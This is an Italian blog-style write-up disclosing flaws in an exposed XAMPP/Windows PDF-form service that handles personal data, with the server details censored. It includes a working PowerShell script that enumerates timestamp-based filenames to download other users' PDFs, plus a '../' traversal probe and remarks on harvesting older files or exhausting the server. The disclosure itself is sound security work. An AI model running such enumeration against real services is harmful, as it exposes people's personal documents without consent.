





Quanto scritto in questa pagina è attualmente online e accessibile, dovrebbe aiutare l'utente a generare un pdf compilati con dei dati inseriti da un utente.

Visto che non si possono ancora inviare questi PDF suppongo che non sia ancora molto utilizzato al momento.

Ho provveduto a far avvisare i responsabili, per sicurezza ho rimosso tutti i riferimenti.

#

Navigando tra alcuni siti per lavoro mi sono imbattuto in questo:

<IMMAGINE DEL SITO CON RIPORTANTE L'URL>

L'indirizzo indicato mi è subito saltato all'occhio per alcuni punti.

Prima di tutto usano un IP invece di un nome DNS, e quindi senza nome non avrà neppure un certificato SSL associato. Ovviamente manca pure un self signed.
Oltre a questo è su una porta non standard, ma la 8080 non è nemmeno così rara da vedere, quindi questo passa.

Una volta aperto inizia il vero spavento, già dal logo. XAMPP. Nulla in contrario su XAMPP, è un ottimo strumento, ma in un ambito professionale mi aspetterei Apache+PHP+MySQL installati manualmente in modo tale da configurare correttamente gli aspetti di sicurezza.

Provo ad andare alla home per curiosità, ed ORRORE:

Si apre la pagina di default.

In passo c'è pure scritto "Copyright (c) 2018, Apache Friends", considerando che siamo nel 2018 forse è il caso di aggiornare la pagina, ma XAMPP 7.4.7 non è del 2018. Forse si sono scordati di aggiornare la data nel progetto? Boh.

Poi mi salta all'occhio "Windows", perché fare una macchina Windows Server (sperando sia Server) per un semplice Apache HTTPD+PHP e pagare la licenza quando si può usare Linux, che consuma meno risorse ed è gratis?

Pure Curl conferma che è un Windows, a 64 bit.

Ma perché proprio la porta 8080? Semplice, sulla 80 c'è già un altro web server.

Sulla 443 non c'è nulla.

Ma questo server sarà dietro a un Firewall, che permette solo gli accessi a 80 e 8080, vero? Sbagliato.

Quanto tempo passerà prima che scoprano una qualche nuova falla di RDP e bucherano il server? Sono aperte le scommesse. Sperando che al momento sia patchato per le vecchie falle, tipo BlueKeep.

Ora basta gironzolare e torniamo alla nostra applicazione web.
Da quanto ho capito permette di scrivere dei dati e questi vengono inseriti in un PDF. Dati personali. Su HTTP (non S). In un server con l'RDP esposto. Senza un nome dominio.

Vabbè, vediamo la voce per la privacy in fondo alla pagina... e rimanda a #.

Diamo un'occhiata al tasto per inviare i dati.
~~~
function() {
  //      function chk_modello(){
~~~
Ok, una funzione di controllo sarebbe stata carina invece di una funzione monolitica ma sono dettagli.
~~~
  var nome = $("#nome").val();
  var cognome = $("#cognome").val();
  [...]
   if ($('#nome').val() == "" || $("#cognome").val() == "") 
    errori[err] = " - inserire nome e cognome del dichiarante;";
    err++;
  }
~~~
etc etc, cioè lettura dei campi e verifica dei campi in JS, ma essendo i dati usati solo per generare un PDF restituito all'utente non vedo la necessità di avere i controlli dei campi lato PHP.

Mi lascia perplesso la logica dietro a err++, cioè se l'utente ha fatto meno di TOT errori di compilazione potrebbe continuare lo stesso? O se sbaglia tutto vince un premio?

~~~ 
//        if (ValidateEmail($('#email').val($('#email').val().trim())) != true){
~~~
Ehm ok? Ho già detto che non mi piace JS? Comunque è commentato

~~~
if (err) {
    msg_err = "";
    for (x = 0; x < errori.length; x++) {
      msg_err = msg_err + "\n" + errori[x];
    }
    alert("Le seguenti informazioni risultano mancanti oppure errate, \ncorreggerle per proseguire\n" + msg_err);
    return;
  }
~~~
Continuo a non comprendere bene l'uso del "err++" di prima, ma non capisco molto di JS, è illogico e bastava un bool o sono io che non comprendo la logica del linguaggio? Se avete precisazioni scrivetemi.

Ora passiamo alla parte interessante, la funzione che genera il PDF e lo fa scaricare:
~~~
    $.ajax({
      type: "POST",
      url: "chk_modello.php",
      data: {
        valori, 'tipo_dichiarante': tipo_dichiarante,
        'dimensioni': dimensioni
      },
      dataType: "html",
      success: function(msg) {
        $("#risultato").html(msg);

        //-----              alert ("apro file "+msg);
        //              window.open(msg, '_blank', 'fullscreen=yes');  

        window.open("download.php?f=" + msg);

        /*
                          $.ajax({
                            url : "viewfile.php?id="+row.doc_id,
                    //        url : "download_new.php?id="+row.doc_id+"&ist="+m_ist_id.value,
                            async : true,
                            success : function (data,stato) {
                              campi = JSON.parse(data);
                              window.open("download.php?f="+campi['file']);
                    //          window.open("http://127.0.0.1/DGP/download.php?f="+data['file']);
                    //          _2_LO STIVALE.pdf
                              if (data['error'] == true){
                                $.messager.alert('Info', 'ERRORE: non è stato possibile recuperare il documento', 'error');
                              }
                            },
                            error : function (richiesta,stato,errori) {
                              alert("E' evvenuto un errore. Stato della chiamata: "+stato);
                            }
                          });
        */
~~~

Gli alert di debug commentati non sono eleganti, come pure il 127.0.0.1 di prova e quel _2_LO STIVALE.pdf che non mi sembra codice JS valido.

EDIT: Mi sono accorto che ho copiato un codice commentato, quello reale era più sotto, ma il comportamento era quello a grandi linee.

Guardiamo chk_modello.php e proviamo a chiamarlo senza nessun parametro (sono pigro e non voglio compilare tutto), questa è la risposta:

~~~
Notice: Undefined index: valori in C:\xampp\htdocs\fake_path_censored\chk_modello.php on line 25

Notice: Undefined index: nome in C:\xampp\htdocs\fake_path_censored\chk_modello.php on line 102
[...]
Notice: Undefined index: data_compilazione_mm in C:\xampp\htdocs\fake_path_censored\chk_modello.php on line 238

Notice: Undefined index: data_compilazione_aa in C:\xampp\htdocs\fake_path_censored\chk_modello.php on line 239
modello_domanda_1600973887.pdf
~~~
Vi ho cancellato tutti gli errori intermedi.

"C:\xampp\htdocs\" è la locazione di default dei documenti.

Non è che hanno pure PHPmyadmin? Apriamo http://213.X.X.X:8080/phpmyadmin :

Si c'è, ma di default non è esposto all'esterno. Mi ero scordato di questa ACL.

Ok, torniamo al nostro file PDF, alla fine il php ritorna "modello_domanda_1600973887.pdf".

1600973887? Sembra un po' elevato per essere un numero progressivo.

Faccio un paio di reload, 1600974132, 1600974134, 1600974137...

Potrebbe essere random, ma mi fa ricordare qualcosa... momento... ah si, il timestamp Unix!

Proviamo a scaricarlo... http://213.X.X.X:8080/fake_path_censored/download.php?f=modello_domanda_1600973887.pdf

Con i campi vuoti, però esiste.

E' arrivato il momento di provare se la pratica segue la teoria.

Scrivo questo codice in Powershell e prendo il cellulare per provare a creare un documento da un dispositivo e intercettarlo con l'altro.
~~~
$time = [int][double]::Parse((Get-Date -UFormat %s)) - 7220;
do {
    echo $time
    $response = Invoke-WebRequest -Uri http://213.X.X.X:8080/fake_path_censored/download.php?f=modello_domanda_$($time).pdf
    if($response.ToString().IndexOf("File does not exist") -eq -1) {
      $response = Invoke-WebRequest -Uri http://213.X.X.X:8080/fake_path_censored/download.php?f=modello_domanda_$($time).pdf -OutFile "modello_domanda_$($time).pdf"
     }
     else
     {
        echo "File non trovato!"
     }
     $time++
     sleep -Seconds 1
 } while (1 -eq 1)
~~~
PS: I 7220 secondi di differenza servono perché apparentemente l'orario del server non è corretto. Lo so che il codice non è perfetto e non è elegante, ma è solo per fare un POC, non deve funzionare perfettamente.

Risultato?
~~~
File non trovato!
1600975396
File non trovato!
1600975397
File non trovato!
1600975398
1600975399
File non trovato!
1600975400
File non trovato!
1600975401
File non trovato!
~~~
Il 1600975398 è il file che ho generato io con il cellulare, e sono riuscito a scaricarlo in PDF, che è stato automaticamente salvato nella cartella dove ho eseguito lo script.
Al momento sono l'unico utilizzatore del servizio perché il bando non è ancora attivo (e sto facendo i test fuori orario lavorativo), ma se lo fosse stato avrei potuto raccogliere le richieste anche degli altri utenti.

Una domanda che mi sorge spontanea è: Se due utenti inviano i dati nello stesso secondo, uno dei due scaricherà il PDF dell'altro? O sarà stata gestita questa casistica? Potrei simularlo ma preferisco non indagare oltre, di problemi ne sono emersi già troppi solamente a una prima analisi.

Potrei pure andare a ritroso (togliendo pure lo sleep e parallelizando le richieste) per recuperare documenti vecchi compilati da altre persone!

O potrei generare continuamente documenti per riempire disco e CPU del server.

E ciliegina sulla torta su http://213.X.X.X:8080/fake_path_censored/ è abilitato l'indexing dei file. Fortunatamente i PDF generati non si trovano qui.

C'è pure un file di prova compilato (con dati apparentemente fasulli):
http://213.X.X.X:8080/fake_path_censored/MODELLO_PROVA_<CENSURATO>.pdf

E un file di documentazione dello strumento fatto per generare i PDF:
http://213.X.X.X:8080/fake_path_censored/documentazione.txt

~~~PDF -----------------------

https://www.punto-informatico.it/download/pdftk/

C:\Program Files (x86)\PDFtk Server\bin>pdftk D:\xampp\htdocs\fake_path_censored\modellodomanda.pdf output D:\xampp\htdocs\fake_path_censored\modellodomanda_uncompress.pdf uncompress     (genera versione non compressa del file pdf)

D:\xampp\htdocs\Investimenti2019>pdftk modello2020.pdf dump_data_fields output modello2020.txt

il comando suddetto esegue il programma PDFTK.exe portando sul file in output specificato il contenuto dei soli fields presenti sul documento pdf in input.

C:\Program Files (x86)\PDFtk Server\bin>pdftk D:\xampp\htdocs\fake_path_censored\modellodomanda.pdf generate_fdf output D:\xampp\htdocs\fake_path_censored\modellodomanda.fdf                (estrae il file fdf con il contenuto dei fields da variare)

C:\Program Files (x86)\PDFtk Server\bin>pdftk D:\xampp\htdocs\fake_path_censored\modellodomanda.pdf fill_form D:\xampp\htdocs\fake_path_censored\modellodomanda.fdf output D:\xampp\htdocs\fake_path_censored\modellodomanda_modificata.pdf           (unisce pdf con form fileds del file fpf nel file in output)

File P7M   da PHP -----------------------

Da <https://forum.italia.it/t/lettura-fatture-p7m-in-ricezione-in-php/6878> 

openssl smime -decrypt -verify -inform DER -in domanda.pdf.p7m -noverify -binary -out  domanda1.pdf  ( funziona!)

https://www.php.net/manual/en/function.openssl-pkcs7-decrypt.php

~~~

Quel dump_data_fields direttamente in cmd mi fa un po' paura.

Come ultima cosa provo a vedere che mi dice la funzione di download se gli passo qualcosa di sbagliato:
http://213.X.X.X:8080/fake_path_censored/download.php?f=../

Errore:
~~~
File does not exist. Make sure you specified correct file name. /dati_fuori_www/fake_path_censored/output/..
~~~

Bellissimo, è andato in errore e mi ha pure stampato la path dove salva i PDF. come abbiamo visto prima non sembra essere nella stessa folder con l'indexing (per fortuna), suppongo sia fuori da htdocs.

Stavo per chiudere tutto quando trovo IL FILE:
http://213.X.X.X:8080/fake_path_censored/downloads.log

Cosa contiene? IP e download.
~~~
09.24.2020 5:33pm  93.34.X.Y  modello_domanda_XXXXXXXXXX.pdf
09.24.2020 5:35pm  93.34.X.Y  modello_domanda_XXXXXXXXXX.pdf
09.24.2020 6:12pm  185.122.X.Y  modello_domanda_XXXXXXXXXX.pdf
09.24.2020 6:54pm  80.21.X.Y  modello_domanda_XXXXXXXXXX.pdf
09.24.2020 7:01pm  93.36.X.Y  modello_domanda_XXXXXXXXXX.pdf
09.24.2020 7:03pm  52.71.X.Y  modello_domanda_XXXXXXXXXX.pdf
09.24.2020 7:15pm  213.26.X.Y  modello_domanda_XXXXXXXXXX.pdf
09.24.2020 9:04pm  37.119.X.Y  modello_domanda_XXXXXXXXXX.pdf
09.24.2020 9:07pm  37.119.X.Y  modello_domanda_XXXXXXXXXX.pdf
09.24.2020 9:07pm  37.119.X.Y  modello_domanda_XXXXXXXXXX.pdf
~~~

Pertanto tutto lo script di prima è stato completamente inutile. Mi dicono loro chi ha scaricato cosa e pure quando, mi basterebbe andare a prendermi i file.

Beh, fantastico.
